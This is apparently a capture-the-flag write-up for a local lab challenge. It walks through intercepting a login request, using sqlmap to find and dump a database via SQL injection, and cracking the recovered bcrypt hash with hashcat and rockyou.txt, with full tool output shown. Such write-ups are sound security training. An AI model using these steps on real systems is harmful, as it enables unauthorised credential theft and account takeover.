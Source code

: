  SQL injection to extract and crack bcrypt password hash

## Description

* Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.
## Overview

![img](./assets/overview.png)

We are initially greeted by a login screen promoting us for a username and password.

```
POST / HTTP/1.1
Host: localhost:1337
Content-Length: 27
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:1337
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=test*&password=test*
```

We will try intercepting the request and pass it to sqlmap in order to test for sql injection.

```
sqlmap -r request.txt --ignore-code 401
```

![sqlmap](./assets/sqlmap.png)

We can now enumerate the database tables.

![dump](./assets/dump.png)

We get a bcrypt hashed password. We can try cracking it with hashcat.

```
hashcat -a 0 -m 3200 bcrypt_hash_file rockyou.txt
```

Eventually we get the password.

```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 LINUX) - Platform #1 [Intel(R) Corporation]
==================================================================
* Device #1: AMD Ryzen 5 5600X 6-Core Processor, 7911/15887 MB (1985 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /home/killy/tools/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8...63yiv.
Time.Started.....: Tue Mar  5 20:09:58 2024 (24 secs)
Time.Estimated...: Tue Mar  5 20:10:22 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/killy/tools/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       59 H/s (9.35ms) @ Accel:12 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1440/14344384 (0.01%)
Rejected.........: 0/1440 (0.00%)
Restore.Point....: 1296/14344384 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: winston -> michel
Hardware.Mon.#1..: Temp: 89c Util: 86%

Started: Tue Mar  5 20:09:51 2024
Stopped: Tue Mar  5 20:10:24 2024
```

We can use this to login as `admin` and get the flag.
